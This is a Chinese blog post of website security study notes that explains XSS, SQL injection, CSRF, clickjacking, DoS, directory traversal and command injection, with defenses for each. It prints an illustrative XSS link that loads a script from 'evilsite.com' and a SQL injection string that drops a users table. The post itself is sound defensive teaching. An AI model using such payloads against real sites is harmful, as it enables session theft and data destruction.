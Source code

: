 ```yaml
---
layout:     post
title:      网站安全学习笔记
subtitle:   ......
date:       2022-6-7
author:     呆贝斯
header-img: img/post-bg-desk.jpg
catalog: true
tags:
    - 网站安全
---
```

## 什么是网站安全？
互联网是一个危险的地方！我们经常听到有关网站因拒绝服务攻击或在其主页上显示修改（通常是有害的）信息而变得不可用的消息。
在一些出名的案例中，上百万的密码、邮件地址和信用卡信息被泄露给了公众，导致网站用户面临个人尴尬和财务威胁。

网站安全的目的是防止这些（或者说所有）类型的攻击。更正式点说，站点安全就是为保护站点不受未授权的访问、使用、修改和破坏而采取的行为或实践。

有效的站点安全需要在对整个站点进行设计：包括 Web 应用编写、Web 服务器的配置、密码创建和更新的策略以及客户端代码编写等过程。
尽管这听起来很凶险，好消息是如果你使用的是服务器端的 Web 服务框架，那么多数情况下它默认已经启用了健壮而深思熟虑的措施来防范一些较常见的攻击。
其它的攻击手段可以通过站点的Web服务器配置来减轻威胁，例如启用HTTPS。
最后，可以用一些公开可用的漏洞扫描工具来协助发现你是否犯了一些明显的错误。

## 网站安全威胁
+ 跨站脚本（XSS）

    XSS 是一个术语，用来描述一类允许攻击者通过网站将客户端脚本代码注入到其他用户的浏览器中的攻击手段。
由于注入到浏览器的代码来自站点，其是可信赖的，因此可以做类似将该用户用于站点认证的 cookie 发送给攻击者的事情。
一旦攻击者拿到了这个 cookie，他们就可以登陆到站点，就好像他们就是那个用户，可以做任何那个用户能做的事情。
根据站点的不同，这些可能包括访问他们的信用卡信息、查看联系人、更改密码等。

    有两种主要的方法可以让站点将注入的脚本返回到浏览器 -- 通常被称做 反射型 和 持久型 XSS 攻击。

    + `反射型 XSS 攻击`: 发生在当传递给服务器的用户数据被立即返回并在浏览器中原样显示的时候 -- 当新页面载入的时候原始用户数据中的任何脚本都会被执行！ 
举个例子，假如有个站点搜索函数，搜索项被当作 URL 参数进行编码，这些搜索项将随搜索结果一同显示。
攻击者可以通过构造一个包含恶意脚本的搜索链接作为参数
（例如 http://mysite.com?q=beer<script%20src="http://evilsite.com/tricky.js"></script>），然后把链接发送给另一个用户。
如果目标用户点击了这个链接，当显示搜索结果时这个脚本就会被执行。正如上述讨论的，
这促使攻击者获取了所有需要以目标用户进入站点的信息 -- 可能会购买物品或分享联系人信息。

    + `持久型 XSS 攻击`: 恶意脚本存储在站点中，然后再原样地返回给其他用户，在用户不知情的情况下执行。 
举个例子，接收包含未经修改的 HTML 格式评论的论坛可能会存储来自攻击者的恶意脚本。
这个脚本会在评论显示的时候执行，然后向攻击者发送访问该用户账户所需的信息。
这种攻击类型及其常见而且有效，因为攻击者不需要与受害者有任何直接的接触。 
尽管 POST 和 GET 方式获取到的数据是 XSS 攻击最常见的攻击来源，
任何来自浏览器的数据都可能包含漏洞（包括浏览器渲染过的 Cookie 数据以及用户上传和显示的文件等)。

    防范 XSS 攻击的最好方式就是删除或禁用任何可能包含可运行代码指令的标记。
对 HTML 来说，这些包括类似 script、 object、 embed 和 link 的标签。

    修改用户数据使其无法用于运行脚本或其它影响服务器代码执行的过程被称作输入过滤。
许多 Web 框架默认情况下都会对来自 HTML 表单的用户数据进行过滤。

+ SQL注入

    SQL 注入漏洞使恶意用户能够在数据库上执行任意 SQL 代码，从而允许访问、修改或删除数据，而无需考虑用户的权限。
成功的注入攻击可能会欺骗身份、创建具有管理权限的新身份、访问服务器上的所有数据或破坏/修改数据以使其无法使用。

    如果传递给底层 SQL 语句的用户输入可以修改该语句的语义，这种漏洞便是存在的。
例如下面一段代码，本来是用来根据 HTML 表单提供的特定名字（userName) 来列出所有的用户：
    ```
    statement = "SELECT * FROM users WHERE name = '" + userName + "';"
    ```
    如果用户输入了真实的名字，这段代码会如预想的运行。然而一个恶意用户可以完全将这个 SQL 语句的行为改变为下面的新语句的行为，
只要通过将 userName指定为下列“粗体”的文本。修改后的代码创建了一个合法的 SQL 语句，该语句删除了整个 users 表，
然后从 userinfo 表中获取了所有数据（所有用户的信息都被暴露了）。这是有效的，
因为注入的文本的第一部分 (a';) 结束了原来的语句 ( ' 在 SQL 语句中是用来描述字符串常量的) 。
    ```
    SELECT * FROM users WHERE name = 'a';DROP TABLE users; SELECT * FROM userinfo WHERE 't' = 't';
    ```
    避免此种攻击的方法就是确保任何传递给 SQL 查询语句的用户数据都无法更改查询的本来用意。
有种方式便是将用户输入中任何在 SQL 语句中有特殊含义的字符进行转义。

     SQL 语句把 ' 号作为一个字符串常量的开头的结尾。通过在前面放置一个斜杠，我们把单引号进行了转义 ( \' )，
然后 SQL 就会将其视为一个字符（作为字符串的一部分）。

    在下面的语句中我们对 ' 字符进行了转义。SQL 会将粗体显示的整段字符串解释为 name(这个 name 很古怪，但至少是没有危害的！)
    ```
    SELECT * FROM users WHERE name = 'a\';DROP TABLE users; SELECT * FROM userinfo WHERE \'t\' = \'t';
    ```
    Web 框架通常会为你进行这种转义操作。例如 Django，可以确保任何传递给查询集合 (model 查询) 的用户数据都是已经转义过的。

+ 跨站请求伪造（CSRF）

    CSRF 攻击允许恶意用户在不知情或不同意的情况下使用其他用户的凭据执行操作。

    这种类型的攻击最好通过例子来解释。John 是一个恶意用户，
他知道特定站点允许登录用户使用包含帐户名称和金额的 HTTP POST 请求向指定帐户汇款。
John 构建了一个表单，其中包含他的银行详细信息和作为​​隐藏字段的金额，
并将其通过电子邮件发送给其他站点用户（使用伪装成“快速致富”站点链接的提交按钮）。

    如果用户单击提交按钮，将向服务器发送一个 HTTP POST 请求，
其中包含交易详细信息以及浏览器与站点关联的任何客户端 cookie（将关联的站点 cookie 添加到请求中是正常的浏览器行为）。
服务器将检查 cookie，并使用它们来确定用户是否已登录并有权进行交易。

    最终的结果就是任何已登陆到站点的用户在点击了提交按钮后都会进行这个交易。John 发财啦！

    这里的诀窍是，John 不需要访问那些用户的 cookie(或者说身份信息) -- 用户的浏览器存储了这些信息，
而且会自动将其包含在发送给对应服务器的请求中。

    杜绝此类攻击的一种方式是在服务器端要求每个 POST 请求都包含一个用户特定的由站点生成的密钥 
( 这个密钥值可以由服务器在发送用来传输数据的网页表单时提供）。
这种方式可以使 John 无法创建自己的表单，因为他必须知道服务器提供给那个用户的密钥值。
即使他找出了那个密钥值，并为那个用户创建了表单，他也无法用同样的表单来攻击其他的所有用户。


+ 其他威胁
    + `点击劫持`：在这种攻击中，恶意用户劫持了针对可见顶级站点的点击，并将它们路由到下方的隐藏页面。
  例如，此技术可能用于显示合法的银行站点，但会将登录凭据捕获到 iframe 攻击者控制的不可见站点中。
  点击劫持也可以用来让用户点击一个可见站点上的按钮，但这样做实际上是在不知不觉中点击了一个完全不同的按钮。
  作为防御，您的站点可以通过设置适当的 HTTP 标头来防止自己嵌入到另一个站点的 iframe 中。
    + `拒绝服务`：DoS 通常是通过向目标站点充斥虚假请求来实现的，从而中断合法用户对站点的访问。
请求可能很多，或者它们可能单独消耗大量资源（例如，缓慢读取或上传大文件）。
DoS 防御通常通过识别和阻止“不良”流量同时允许合法消息通过来发挥作用。
这些防御通常位于 Web 服务器之前或内部（它们不是 Web 应用程序本身的一部分）。
    + `目录遍历`：在此攻击中，恶意用户尝试访问他们不应访问的部分 Web 服务器文件系统。
当用户能够传递包含文件系统导航字符（例如，../../）的文件名时，就会出现此漏洞。解决方案是在使用输入之前对其进行清理。
    + `文件包含`：在这种攻击中，用户能够指定一个“非预期”文件以在传递给服务器的数据中显示或执行。
加载后，此文件可能会在 Web 服务器或客户端执行（导致 XSS 攻击）。解决方案是在使用输入之前对其进行清理。
    + `命令注入`：命令注入攻击允许恶意用户在主机操作系统上执行任意系统命令。解决方案是在系统调用中使用用户输入之前对其进行清理。

## 常见提升网站安全做法
当 Web 应用信任来自浏览器的数据时，上述章节里提到的大多数攻击利用手段才能成功。无论你做什么其它的事情来提升你的网站的安全性能，
在将信息展示在浏览器之前、在使用 SQL 语句进行查询之前、在传递给一个操作系统或者文件系统之前，你应该过滤掉所有的用户源信息。

在你可以了解到的有关网站安全大多数课程之中，最重要的就是不要相信来自浏览器的数据。
包括在 URL 参数中的 GET 请求、POST 请求、HTTP 头、cookies、用户上传的文件等等。一定要每次都检查用户输入的信息。每次都预想最坏的结果。

你可以采取一些简单的步骤：

1. 采取更加强大的密码管理措施。当密码频繁更换时鼓励更加健壮的密码。采取双因素认证，也就是说除了密码，
用户还应该输入另一种认证码（通常是只有唯一一个用户拥有的通过一些物理硬件传输的，比如发送给用户手机的验证短信）。
2. 将你的服务器配制成 HTTPS 和 HTTP Strict Transport Security (en-US) (HSTS)。HTTPS 会加密你的用户和服务器之间传输的信息。
这使得登录认证、cookise、POST 数据及头信息不易被攻击者获得。
3. 持续追踪那些常见的网络攻击 (the current OWASP list is here)，先解决最脆弱的部分。
4. 使用 vulnerability scanning tools 来对你的网站进行一些安全测试 
(然后，你的非常受欢迎的网站还可以靠提供赏金来寻找 bug，就像 Mozilla 这样（like Mozilla does here）。
5. 只存储和展示你不得不需要的东西。比如，如果你的用户不得不存储一些敏感信息（如信用卡详明），只展示足以让用户识别卡号的几位数字即可，
却不足以让黑客复制之后在另一个站点使用。现今最常见的是只展示信用卡卡号后 4 位数字。

## 总结

这篇文章介绍了有关网络安全的概念，你应该避免一些常见的攻击。最重要的是，你应该理解一个网络应用程序，
不能相信任何来自网络服务器的数据！所有的用户数据在展示、使用 SQL或者回应系统之前应该被过滤查询。